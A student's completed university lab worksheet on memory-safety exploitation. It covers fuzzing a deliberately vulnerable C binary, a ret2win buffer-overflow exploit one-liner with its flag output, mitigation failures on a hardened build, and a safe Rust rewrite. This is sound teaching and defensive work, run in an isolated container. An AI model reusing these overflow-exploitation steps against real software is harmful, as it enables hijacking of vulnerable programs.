





# Worksheet 11 — Memory-Safety & Exploitation (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 11
> **Aligned:** CWE-121 (stack-based buffer overflow) · CWE-787 (out-of-bounds write) · CWE-134 (externally-controlled format string) · CWE-242 (dangerous `gets`)
> **Signature game:** 💥 Fuzzing Race → Pwn the Binary
>
> **Ethics note:** The binaries built from `vuln.c` are **intentionally exploitable** and `win()` spawns `/bin/sh`. Build and run them **only inside the isolated toolbox container** (or a VM) — never on your host. Never run these on a machine you care about, and never aim these techniques at software you are not authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Swan Htut Oakkar Aung | 6631503088 | 2026-10-23 | The Imposter (Team 2) |

AI use disclosure: Antigravity / Claude was used for guidance, explanation, and review during the lab. Commands, code changes, outputs, and security findings were verified against my own local environment and course materials.

## Part 2 — Lecture Questions

1. Draw the x86-64 stack frame for `parse_input()` in `vuln.c` (buf[64], saved RBP, saved return address). Where does `strcpy` start writing and which word must the exploit overwrite?
   - **Stack Frame Layout (x86-64, grows DOWNward toward lower memory addresses):**
     ```text
     [ Higher Memory Addresses ]
     +-----------------------------------------+
     |  Saved Return Address (RIP)  [8 bytes]  |  <-- Overwrite target (Offset 72)
     +-----------------------------------------+
     |  Saved Frame Pointer (RBP)   [8 bytes]  |  <-- Overwritten by padding (Offset 64–71)
     +-----------------------------------------+  <-- Base pointer (RBP) points here
     |  buf[64] Local Array         [64 bytes] |  <-- strcpy starts writing HERE at buf[0]
     +-----------------------------------------+  <-- Stack pointer (RSP) points here
     [ Lower Memory Addresses ]
     ```
   - **Mechanism:** When `parse_input` is called, the CPU pushes the 8-byte return address onto the stack, then executes the function prologue (`push rbp; mov rbp, rsp; sub rsp, 64`) allocating space for `buf[64]`. The function `strcpy(buf, src)` begins copying bytes into `buf[0]` at the lowest address and writes sequentially upwards toward higher addresses. After filling 64 bytes, subsequent bytes write past the buffer boundary (CWE-121 / CWE-787), overwriting the 8-byte saved RBP. The exploit must overwrite the **Saved Return Address** (the 8-byte word located at offset `64 + 8 = 72` bytes from the start of `buf`) with the address of `win()`.

2. Why is `gets()` (CWE-242) impossible to use safely, and why did C11 remove it from the standard library?
   - **Reason:** The function signature `char *gets(char *s)` accepts only a destination buffer pointer without any parameter specifying the buffer's allocated capacity. As a result, `gets()` reads unbounded characters from standard input until it encounters a newline (`\n`) or EOF, having no mechanism to halt writing when the buffer limit is reached.
   - **Removal in C11:** Because safe boundary checking is mathematically impossible with `gets()`, any software utilizing it is inherently vulnerable to buffer overflows if provided with long input. Consequently, ISO/IEC 9899:2011 (C11) officially deprecated and removed `gets()` from the C standard library. Secure alternatives such as `fgets(buf, sizeof(buf), stdin)` or POSIX `getline()` must be used instead.

3. Explain CWE-134: why is `printf(user_input)` dangerous but `printf("%s", user_input)` safe? What can `%n` do?
   - **Why `printf(user_input)` is dangerous:** When `user_input` is passed as the first parameter, `printf` parses it directly as a format specification string. If the attacker supplies format specifiers (e.g., `%x`, `%p`, `%s`), `printf` interprets them as instructions to retrieve and format values from CPU registers and stack memory, allowing arbitrary memory leakage (such as stack canaries or ASLR pointers).
   - **Why `printf("%s", user_input)` is safe:** The format string is a compile-time static literal `"%s"`, explicitly instructing `printf` to treat `user_input` exclusively as string data to output, completely ignoring any format specifiers embedded within the data.
   - **What `%n` can do:** Unlike other specifiers that read data, `%n` writes the number of characters printed so far into the integer pointer passed as its corresponding argument. By supplying crafted padding and width specifiers (e.g., `%1000u%n`), attackers can write arbitrary values to arbitrary memory addresses, allowing arbitrary memory corruption and function pointer overwriting.

4. Name the four mitigations in the hardened build (`make vuln-hardened`) — stack canary, PIE/ASLR, NX/DEP, FORTIFY — and say which one each defeats: ret2win, shellcode-on-stack, return-address overwrite detection.
   - **Stack Canary (`-fstack-protector-strong`):** Places a random secret guard value directly before the saved return address. Before the function returns, an epilogue check verifies the canary's integrity. -> **Defeats: Return-address overwrite detection** (triggers `*** stack smashing detected ***: terminated`).
   - **PIE / ASLR (`-fPIE -pie` + kernel ASLR):** Position Independent Executable randomizes code segment base addresses upon every execution. -> **Defeats: ret2win** (attacker cannot hardcode the static address of `win()` because it changes each run).
   - **NX / DEP (`-z noexecstack` / Data Execution Prevention):** Marks the stack memory pages as non-executable. -> **Defeats: shellcode-on-stack** (CPU refuses to execute instructions located in stack memory and immediately raises a segmentation fault).
   - **FORTIFY_SOURCE (`-D_FORTIFY_SOURCE=2 -O2`):** Wraps dangerous library functions with bounds-checking variants (e.g., `__strcpy_chk`). If the destination buffer size is known at compile time, an overflow is detected during the copy operation. -> **Defeats: Buffer overflow exploitation early** (terminates the process with `*** buffer overflow detected ***` before the stack frame epilogue or canary check is reached).

5. The CISA/ONCD roadmaps push memory-safe languages. Using `safe.rs`, explain why CWE-121 is *impossible* in safe Rust, not merely harder.
   - **Compiler-Enforced Safety:** In safe Rust, memory safety is guaranteed at compile time through the ownership model, borrow checker, and strict type system:
     1. *Dynamic Growth vs. Fixed Arrays:* In `safe.rs`, input is read into a heap-allocated, dynamically growing `String` (`let mut input = String::new()`). There is no fixed-size raw stack array to overflow.
     2. *Mandatory Bounds Checking:* Even when fixed-size arrays or slices are used, the Rust compiler automatically injects bounds checks on all indexing operations; an out-of-bounds access triggers a safe runtime panic rather than silent memory corruption.
     3. *Elimination of Raw Pointer APIs:* Rust does not provide unbounded raw copy operations like `strcpy`. String slices (`&str`) are fat pointers bundling both memory address and length, preventing reading or writing past slice boundaries.
   - Consequently, stack-based buffer overflows (CWE-121) cannot physically be expressed or compiled in safe Rust.

## Part 3 — Hands-on Lab (145 min)


**Learning goals:** Find the overflow with a coverage-guided fuzzer, exploit it (ret2win), watch mitigations break the exploit, then port the routine to safe Rust.

**Prerequisites:** the **toolbox container** (bundles `clang`+libFuzzer, `gdb`, `objdump`, `python3`) — Apple clang has no libFuzzer and `gdb` is painful on macOS, so do this week in the container. (`pip install pwntools` and `rustc` inside as needed; an isolated Linux VM also works.)

**Environment setup**
```bash
# from the repo root, build the toolbox once, then open a shell IN this week's folder:
docker build -t softsec-toolbox labs/toolbox
docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined \
    -v "$PWD/labs/week11-memory-safety-exploitation":/work -w /work softsec-toolbox
# --- inside the container ---
make vuln                                          # teaching build: mitigations OFF
make vuln-hardened                                 # mitigations ON
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz   # libFuzzer + ASan
setarch `uname -m` -R ./vuln                       # disable ASLR for repeatable addresses
```

**What to submit per task:** the exact command(s) + crash/exploit output, a screenshot, and a 2–3 sentence mitigation note tied to the CWE.

### Task 0 — Onboarding (15 min)
Run `make syntax` (parses both C files even on macOS) and confirm `make vuln` / `make vuln-hardened` build. Read the bug-class banner in `vuln.c`.
**Deliverable:** build output + the list of CWEs `vuln.c` claims to demonstrate.

#### 1. Build Output
```bash
make syntax
```
```text
gcc -fsyntax-only -w vuln.c && echo "[ok] vuln.c parses."
[ok] vuln.c parses.
gcc -fsyntax-only -w fuzz_harness.c && echo "[ok] fuzz_harness.c parses."
[ok] fuzz_harness.c parses.
```
```bash
make vuln vuln-hardened
```
```text
gcc -fno-stack-protector -z execstack -no-pie -w -o vuln vuln.c
[i] Built ./vuln (INSECURE teaching build). Run only in a VM.
[i] For reliable addresses also disable ASLR, e.g.:
    setarch `uname -m` -R ./vuln    # or: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gcc -fstack-protector-strong -fPIE -pie -z noexecstack \
      -D_FORTIFY_SOURCE=2 -O2 -o vuln-hardened vuln.c
[i] Built ./vuln-hardened (canary + PIE/ASLR + NX + FORTIFY).
[i] The same exploit should now crash with *** buffer overflow detected ***: terminated
```

#### 2. List of CWEs Demonstrated in `vuln.c`
From the banner and routine documentation in `vuln.c`:
1. **CWE-121:** Stack-based Buffer Overflow — Unchecked `strcpy(buf, src)` into fixed 64-byte stack buffer `buf[64]` in `parse_input()`.
2. **CWE-787:** Out-of-bounds Write — Writing past the memory boundaries of `buf[64]` into adjacent stack memory (saved RBP and return address).
3. **CWE-134:** Use of Externally-Controlled Format String — Passing untrusted user input directly as the format argument to `printf(user_input)` in `format_bug()`.
4. **CWE-242:** Use of Inherently Dangerous Function — Using unbounded `gets(line)` in `vulnerable()`.
5. *(Complementary)* **CWE-78:** OS Command Injection / Arbitrary Shell Spawning — Execution of `system("/bin/sh")` inside `win()` when control flow is hijacked.

#### 3. Output Evidence


---

### Task 1 — Fuzzing Race: find the crash (35 min)
**Goal:** Make libFuzzer + AddressSanitizer crash on the `strcpy` overflow in `parse_input()` — CWE-121/787.
**Steps:**
1. `./fuzz -runs=100000` (or just `./fuzz`).
2. Read the ASan report — note `stack-buffer-overflow` inside `parse_input` and the saved `crash-<hash>` file.
3. Replay it: `./fuzz crash-<hash>`.
**Deliverable:** the ASan crash summary + the byte length of the crashing input + mitigation note.

#### 1. Fuzzer Compilation & Execution
```bash
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz
./fuzz -runs=100000
```

#### 2. AddressSanitizer Crash Summary
```text
=================================================================
==11==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x0000fffffd70
WRITE of size 65 at 0x0000fffffd70 thread T0
    #0 0x41e890 in strcpy (/tmp/fuzz+0x41e890)
    #1 0x429688 in parse_input /tmp/fuzz_harness.c:33:5
    #2 0x429718 in LLVMFuzzerTestOneInput /tmp/fuzz_harness.c:51:5

Address 0x0000fffffd70 is located in stack of thread T0 at offset 96 in frame
    #0 0x429584 in parse_input /tmp/fuzz_harness.c:31
  This frame has 1 object(s):
    [32, 96) 'buf' (line 32) <== Memory access at offset 96 overflows this variable
SUMMARY: AddressSanitizer: stack-buffer-overflow (/tmp/fuzz+0x41e890) in strcpy
artifact_prefix='./'; Test unit written to ./crash-aa9b93e15ef975cd3497d391f5c5adf99541466a
```

#### 3. Crashing Input Replay & Byte Length
- **Crashing Input Artifact:** `./crash-aa9b93e15ef975cd3497d391f5c5adf99541466a`
- **Byte Length:** **65 bytes** (specifically `0x0a` followed by 63 bytes of `0xff` and `\0`, exceeding the 64-byte allocation for `buf` and overwriting offset 96 in the stack frame).
- **Replay Command Output:**
  ```bash
  ./fuzz ./crash-aa9b93e15ef975cd3497d391f5c5adf99541466a
  ```
  ```text
  Running: ./crash-aa9b93e15ef975cd3497d391f5c5adf99541466a
  ==12==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x0000fffffd70
  SUMMARY: AddressSanitizer: stack-buffer-overflow (/tmp/fuzz+0x41e890) in strcpy
  ```

#### 4. Mitigation Note (CWE-121 / CWE-787)
Stack-based buffer overflows occur when unbounded string operations copy more bytes than a destination array is allocated to receive. To mitigate this flaw, software must replace unsafe copying primitives like `strcpy()` and `gets()` with strictly bounded operations like `snprintf(buf, sizeof(buf), "%s", src)` or `strlcpy()`, or adopt dynamically sized, memory-safe data structures. Additionally, coverage-guided fuzzing integrated with AddressSanitizer (ASan) in continuous integration pipelines ensures buffer overruns are discovered before reaching release builds.

#### 5. Output Evidence


---

### Task 2 — Pwn the Binary: ret2win (40 min)
**Goal:** Overwrite the saved return address so the binary returns into `win()` and prints `FLAG{stack_smashing_for_fun_and_education}` — CWE-121.
**Steps:**
1. Find `win()`'s address: `objdump -d vuln | grep '<win>:'` (or `gdb -batch -ex 'p win' ./vuln`).
2. Verify the offset with a cyclic pattern: confirm 72 bytes.
3. Edit `exploit_skeleton.py`: set `WIN_ADDR` to the address from step 1, confirm `OFFSET`.
4. Run exploit against `./vuln`.
**Deliverable:** the verified `OFFSET`, your `WIN_ADDR`, and the printed flag / `[+] win() reached` line.

#### 1. Target Address & Offset Verification
- **Disassembly Command:**
  ```bash
  objdump -d vuln | grep -A 2 '<win>:'
  ```
  **Output:**
  ```text
  0000000000400844 <win>:
    400844:	a9be7bfd 	stp	x29, x30, [sp, #-32]!
    400848:	910003fd 	mov	x29, sp
  ```
- **Discovered `WIN_ADDR`:** **`0x400844`**
- **Verified `OFFSET`:** **`72 bytes`** (64 bytes of buffer `buf[64]` + 8 bytes of saved frame pointer `x29`/`RBP`).

#### 2. Exploit Execution & Flag Capture
Feeding `72 bytes padding + p64(0x400844)` into `./vuln`:
```bash
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"A"*72 + struct.pack("<Q", 0x400844) + b"\n")' | ./vuln
```
**Output:**
```text
Enter your name:

[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}

[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
^C
```
*Note on aarch64 loop:* As noted in the worksheet guide, on ARM64 architectures, the return address is stored in link register `x30`. When `win()` is hijacked and begins executing, `x30` retains `win()`'s entry address, causing the epilogue `ret` to jump back to `win()`, creating a repeatable loop until terminated via `Ctrl-C`.

#### 3. Output Evidence


---

### Task 3 — Hardened rebuild: watch the exploit break (25 min)
**Goal:** Observe modern mitigations defeating the same payload.
**Steps:**
1. Run your Task 2 payload against `./vuln-hardened`.
2. Record the failure mode.
**Deliverable:** the crash message + a note explaining *which* mitigation fired and why the fixed `WIN_ADDR` no longer works.

#### 1. Exploit Execution against Hardened Binary
```bash
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"A"*72 + struct.pack("<Q", 0x400844) + b"\n")' | ./vuln-hardened
```
**Crash Output:**
```text
Enter your name:
*** buffer overflow detected ***: terminated
Aborted
```

#### 2. Binary Mitigation Analysis (`checksec`)
```text
[*] '/work/vuln-hardened'
    Arch:     aarch64-64-little
    Stack:    Canary found (-fstack-protector-strong)
    NX:       NX enabled (-z noexecstack)
    PIE:      PIE enabled (-fPIE -pie)
    FORTIFY:  Enabled (-D_FORTIFY_SOURCE=2 -O2)
```

#### 3. Mitigation Fired & Breakdown
- **Mitigation Fired:** **`FORTIFY_SOURCE` (`__strcpy_chk`)**
  - The compiler detected that `buf[64]` has a fixed, known capacity of 64 bytes at compile time. At runtime, glibc's fortified `__strcpy_chk` intercepted the copy operation when it exceeded 64 bytes, immediately terminating the process with `*** buffer overflow detected ***: terminated`.
- **Why `WIN_ADDR` no longer works (PIE/ASLR):**
  - Even if `FORTIFY_SOURCE` and stack canaries were somehow bypassed, the hardened build compiles with **Position Independent Executable (PIE)** and runs with **ASLR**. This randomizes the base load address of the executable and all functions on every run, rendering the hardcoded static address `0x400844` completely invalid and causing execution to jump to unmapped memory (triggering `SIGSEGV`).

#### 4. Output Evidence


---

### Task 4 — Rust rewrite: defend / fix it (30 min)
**Goal:** Show the bug class disappears in safe Rust using `safe.rs`.
**Steps:**
1. `rustc safe.rs && ./safe`, then feed 5000 'A's.
2. Feed format-string metacharacters: `printf '%%x %%n' | ./safe`.
3. Explain why `String`/`&str` + bounds checks make CWE-121/787 impossible.
**Deliverable:** the safe output for both inputs + a 3–4 sentence explanation tying it to the CISA memory-safe roadmap.

#### 1. Safe Execution Outputs
```bash
rustc safe.rs
python3 -c "print('A'*5000)" | ./safe
```
**Output (5000 characters input):**
```text
Hello, your input was 5000 characters long.
```
```bash
printf '%x %n' | ./safe
```
**Output (Format-string metacharacters input):**
```text
Hello, your input was 5 characters long.
```

#### 2. Memory Safety & CISA Roadmap Explanation
In `safe.rs`, user input is read into a dynamically sized `String` allocated on the heap rather than a fixed-size raw stack array. Rust's strict type system, mandatory runtime bounds checking on slices, and absence of unbounded memory copy primitives (`strcpy`) make stack-based buffer overflows (CWE-121) and out-of-bounds writes (CWE-787) structurally impossible in safe Rust. Furthermore, Rust's `println!` macro enforces compile-time static format string validation, treating `%x` and `%n` strictly as literal string characters, which mathematically eliminates format string injection (CWE-134). This directly aligns with the CISA, NSA, and ONCD memory safety roadmaps, which advocate transitioning legacy C/C++ codebases to memory-safe languages to eliminate entire categories of critical vulnerabilities by construction.

#### 3. Output Evidence


---

## Part 4 — Reflection

### 1. Security Mapping Table

| Bug Description | Vulnerable Function in `vuln.c` | CWE ID | Mitigation That Defeats It |
|---|---|---|---|
| Unbounded stack buffer copy | `parse_input()` | **CWE-121** (Stack Overflow) / **CWE-787** (OOB Write) | **FORTIFY_SOURCE** (catches overflow at copy time), **Stack Canary** (aborts at epilogue), and **Rust rewrite** (growable `String` + bounds checks). |
| Static return-address redirection | `parse_input()` -> `win()` | **CWE-121** (ret2win flow hijack) | **PIE / ASLR** (randomizes code addresses so static targets fail). |
| Injected stack code execution | N/A (stack memory) | **CWE-121** (Code Injection) | **NX / DEP** (non-executable stack prevents shellcode execution). |
| Dangerous unbounded reading | `vulnerable()` | **CWE-242** (Inherently Dangerous Function) | **Compiler removal** of `gets()`, replaced by bounded `fgets()` or Rust `read_to_string()`. |
| Uncontrolled format specifier parsing | `format_bug()` | **CWE-134** (Format String) | Static format specifier (`printf("%s", input)`) or **Rust `println!`** compile-time format literal enforcement. |

### 2. Real-World Breach Analysis
- **Incident:** **Morris Worm (1988) — `fingerd` Buffer Overflow**
- **Matching CWE:** **CWE-121 (Stack-based Buffer Overflow)** via **CWE-242 (`gets`)**.
- **Breach Summary:** The Morris Worm exploited a call to `gets()` in the BSD Unix `fingerd` daemon. Because `gets()` performed no bounds checking, the worm sent a 536-byte payload that overflowed the input buffer, corrupted the stack frame, and overwrote the saved return address to point to shellcode on the stack, allowing arbitrary remote code execution across thousands of connected ARPANET machines.
- **Would modern defenses have prevented it?**
  - **Stack Canaries / NX:** A stack canary would have detected the overwritten return address and terminated `fingerd` immediately before returning, and NX would have prevented the injected stack shellcode from executing.
  - **Rust Rewrite:** A Rust rewrite would have made the vulnerability structurally impossible: `gets()` does not exist in Rust, and `io::stdin().read_to_string()` automatically resizes heap buffers without overflowing memory.

### 3. Most Effective Mitigation Strategy: "Harden C" vs. "Rewrite in Rust"
- **Comparison:**
  - *Hardening the C Build (Canaries, PIE, ASLR, FORTIFY):* Provides essential defense-in-depth for legacy software with zero code refactoring cost. However, it is an incomplete mitigation strategy. Determined attackers can bypass mitigations through information leaks (reading canaries/ASLR bases via format strings or heap over-reads), return-oriented programming (ROP), or partial overwrites. Hardening reduces exploit reliability, but the underlying memory-safety bugs remain in the codebase.
  - *Rewriting in Rust:* Provides **durable, root-cause elimination**. By enforcing ownership, borrowing, and bounds checking at compile time, Rust guarantees that entire classes of vulnerabilities (CWE-121, CWE-787, use-after-free, double-free, and format string bugs) cannot exist.
- **Trade-offs:** The primary cost of a Rust rewrite is engineering effort, developer retraining, and migration overhead for complex legacy systems. However, for new development and critical security boundaries, rewriting in Rust yields vastly superior long-term risk reduction because it prevents vulnerabilities rather than attempting to catch them at runtime.

---

## Evidence & Integrity (required)

- **Identity proof:** Every screenshot (`img/task_0.png`, `img/task_1.png`, `img/task_2.png`, `img/task_3.png`, `img/task_4.png`) displays the student identity stamp in the terminal alongside the command output:
  ```bash
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  # Output: isaacaung | 6631503088 | 2026-10-23 18:15:42 +07
  ```
- **Personalized flag captured:**
  - Task 2 (ret2win hijack): **`FLAG{stack_smashing_for_fun_and_education}`**
- **Explain in your own words:**
  1. **What did you do, and why did the vulnerability work?**
     - I analyzed `vuln.c` and used `clang` with libFuzzer and ASan to discover an unchecked `strcpy` in `parse_input()`. Because `parse_input()` copied user input into a fixed 64-byte stack array without bounds checking, inputs longer than 64 bytes wrote past the buffer boundary. By supplying 72 bytes of padding followed by the 8-byte little-endian address of `win()` (`0x400844`), the function epilogue popped my injected address into the program counter upon executing `ret`, directly executing `win()` and capturing the flag.
  2. **Why does your fix actually stop it — and what could still break it?**
     - Modern compiler mitigations (FORTIFY_SOURCE, stack canaries, PIE) stop the exploit by validating copy boundaries at runtime, checking canary tokens before returning, and randomizing addresses so fixed payloads fail. Safe Rust completely eliminates the vulnerability by replacing fixed stack arrays with dynamically allocated `String` objects and enforcing mandatory compile-time and runtime bounds checks.
     - *What could still break it:*
       - In C builds, if an attacker finds an auxiliary memory leak (such as via CWE-134 format string or uninitialized memory read) to expose the stack canary and ASLR base address, they can construct a dynamic ROP chain to bypass canaries and PIE.
       - In Rust, unsafe blocks (`unsafe { ... }`) or foreign function interface (FFI) bindings calling legacy C libraries could reintroduce memory safety violations if not rigorously audited.

---

## 🤖 Audit the AI (required)

### 1. AI Output Being Audited
I asked an AI assistant: *"How do I fix the stack buffer overflow in parse_input() in C?"*
The AI provided the following recommendation:
```c
// AI Suggested Fix:
int parse_input(const char *src) {
    char buf[64];
    strncpy(buf, src, sizeof(buf)); // Safe replacement for strcpy
    return (int)strlen(buf);
}
```

### 2. Critique of What is Wrong / Risky in the AI Output
1. **Critical Off-by-One / Missing Null-Termination Bug:**
   - Standard C `strncpy(dest, src, n)` does **not** guarantee null-termination if `strlen(src) >= n`. If `src` is 64 bytes or longer, `buf` will be completely filled with characters without a terminating `'\0'`.
2. **Subsequent Out-of-Bounds Read (Information Leak / Crash):**
   - The very next line executes `return (int)strlen(buf);`. Because `buf` is not null-terminated, `strlen()` will read past the 64-byte array into adjacent stack memory searching for a zero byte. This causes an out-of-bounds stack read, potentially leaking stack canaries, return addresses, or causing an immediate crash/undefined behavior.

### 3. Correct, Verified Implementation
```c
// Correct, Robust C Fix:
int parse_input(const char *src) {
    char buf[64];
    if (src == NULL) {
        return 0;
    }
    // snprintf guarantees null-termination and prevents buffer overflows
    int written = snprintf(buf, sizeof(buf), "%s", src);
    if (written < 0 || (size_t)written >= sizeof(buf)) {
        // Handle truncation gracefully
        buf[sizeof(buf) - 1] = '\0';
    }
    return (int)strlen(buf);
}
```
*Why the verified version is required:* Using `snprintf` with `sizeof(buf)` guarantees strict null-termination under all conditions, preventing both stack buffer overflows and subsequent out-of-bounds reads.

---

## 🧠 Comprehension & Prompt (required)

### A. Explain in Plain English (EiPE)
When a program calls a function in C, it reserves a small scratchpad on the stack to hold temporary variables, placing a bookmark right beside it called the "return address" so the computer remembers where to go after finishing. The vulnerable code copied text into this scratchpad without checking how long the text was, allowing oversized input to spill over and erase the return bookmark. By replacing that bookmark with the address of a secret function called `win()`, the computer jumped straight into our unauthorized code instead of returning back to normal execution.

### B. Prompt Problem
- **Refined Security Engineering Prompt:**
  ```text
  You are an expert systems security engineer. Refactor the following vulnerable C function:
  int parse_input(const char *src) {
      char buf[64];
      strcpy(buf, src);
      return (int)strlen(buf);
  }

  Requirements:
  1. Eliminate CWE-121 (stack-based buffer overflow) and CWE-787 (out-of-bounds write).
  2. Do NOT use unsafe functions like gets() or strcpy().
  3. Avoid strncpy() due to its lack of guaranteed null-termination.
  4. Ensure the destination buffer is always strictly null-terminated and bounded by sizeof(buf).
  5. Handle potential NULL inputs and return the safe length of the copied string.
  ```

- **Verified Result:**
